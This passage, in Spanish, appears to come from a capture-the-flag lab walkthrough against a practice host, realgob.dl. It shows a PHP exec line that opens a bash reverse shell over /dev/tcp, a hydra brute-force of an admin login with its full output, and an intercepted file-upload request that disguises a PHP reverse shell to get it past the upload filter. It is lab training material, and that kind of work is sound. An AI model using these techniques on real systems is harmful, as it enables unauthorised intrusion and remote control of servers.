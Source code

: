    ```bash
	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# EXPLOTACION 2

Al revisar el **admin.php** vemos que hay un login, intentaremos usar **hydra** para sacar la contra : 

```bash

hydra -l admin -P /usr/share/wordlists/rockyou.txt "realgob.dl" http-post-form "/admin.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=te2uqq1of7fgg0ptlnvhqeskub:F=Usuario o contraseña incorrectos." -F
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-12 17:16:12
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://realgob.dl:80/admin.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=te2uqq1of7fgg0ptlnvhqeskub:F=Usuario o contraseña incorrectos.
[STATUS] 4695.00 tries/min, 4695 tries in 00:01h, 14339704 to do in 50:55h, 16 active
[STATUS] 4746.00 tries/min, 14238 tries in 00:03h, 14330161 to do in 50:20h, 16 active
[STATUS] 4758.43 tries/min, 33309 tries in 00:07h, 14311090 to do in 50:08h, 16 active
[STATUS] 4766.67 tries/min, 71500 tries in 00:15h, 14272899 to do in 49:55h, 16 active
[80][http-post-form] host: realgob.dl   login: admin   password: admin123
[STATUS] attack finished for realgob.dl (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-12 17:35:15

```

Accedemos y vemos que podemos subir archivos que se suben a **uploads**.

Vamos a subir un php que nos otorgue una reverse shell. Para ello al subir el archivo interceptamos la petición y cambiamos el content-type y los magic numbers y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**) :

   ```bash

POST /cargas.php HTTP/1.1
Host: realgob.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------152487651215257063462338780959
Content-Length: 473
Origin: http://realgob.dl
Connection: keep-alive
Referer: http://realgob.dl/cargas.php
Cookie: PHPSESSID=te2uqq1of7fgg0ptlnvhqeskub
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------152487651215257063462338780959
Content-Disposition: form-data; name="file"; filename="wp.php"
   ```